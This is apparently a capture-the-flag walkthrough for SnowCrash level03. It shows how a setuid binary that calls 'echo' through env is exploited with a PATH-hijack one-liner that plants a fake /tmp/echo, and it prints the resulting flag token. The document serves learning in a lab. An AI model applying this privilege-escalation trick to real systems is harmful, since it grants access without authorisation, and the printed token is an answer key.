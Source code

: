 In our home directory we can see :

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```
If you look at ./level3 with strings you can see a call to echo :
```
level03@SnowCrash:~$ strings ./level03
/usr/bin/env echo Exploit me
```

We can replace the echo command with a fake version that will provide us with the getflag command. This is possible because ./level03 has the permissions of the flag03 user.
```
level03@SnowCrash:~$ `echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03`
```
Finally, run the executable to get the token for level04:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```